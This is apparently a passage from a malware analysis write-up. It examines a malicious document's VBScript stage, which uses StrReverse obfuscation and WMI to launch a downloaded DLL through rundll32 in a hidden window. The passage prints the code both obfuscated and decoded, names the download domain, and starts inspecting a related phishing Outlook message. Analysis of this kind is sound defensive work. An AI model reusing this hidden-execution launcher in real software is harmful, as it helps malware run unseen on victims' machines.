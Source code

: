 ### 4. Use WMI to create a rundll32 process to run the dll

Finally, the script uses WMI to create a process. Here's the code:



        Const HIDDEN_WINDOW = 0
            strComputer = "."
            abc = StrReverse("23lldnur") & " " & dstPath & ",Start"
            strGetObject = StrReverse("2vmic\toor\.\\:stmgmniw")
            Set objWMIService = GetObject(strGetObject)
            Set objStartup = objWMIService.Get(StrReverse("putratSssecorP_23niW"))
            Set objConfig = objStartup.SpawnInstance_
            objConfig.ShowWindow = HIDDEN_WINDOW
            Set objProcess = GetObject(strGetObject & StrReverse("ssecorP_23niW:"))
            objProcess.Create abc, Null, objConfig, intProcessID



Here's the code with the `StrReverse`s removed:



        Const HIDDEN_WINDOW = 0
            abc = "rundll32 " & dstPath & ",Start"
            Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
            Set objStartup = objWMIService.Get("Win32_ProcessStartup")
            Set objConfig = objStartup.SpawnInstance_
            objConfig.ShowWindow = HIDDEN_WINDOW
            Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
            objProcess.Create abc, Null, objConfig, intProcessID



So it creates a WMI object, which starts a process with a hidden window,
and runs it with command line `rundll32 [downloaded.dll],Start`.

## gdpr-datagroup.com

In doing some quick looking at domain used to download the next stage, I
found that VT had one "Files Referring", which happened to be dated 4
days after the creation of the document:

![](/img/1533004680179.png)

## LBG Employee Benefits - Pensionio.msg

### Converting to text

The msg file is a Outlook message file:



    ~/malware/mud.doc# file 68a4985515203c6c8274628e71b433444e32bbbc125ffdf88d7570c3960b2588
    68a4985515203c6c8274628e71b433444e32bbbc125ffdf88d7570c3960b2588: CDFV2 Microsoft Outlook Message


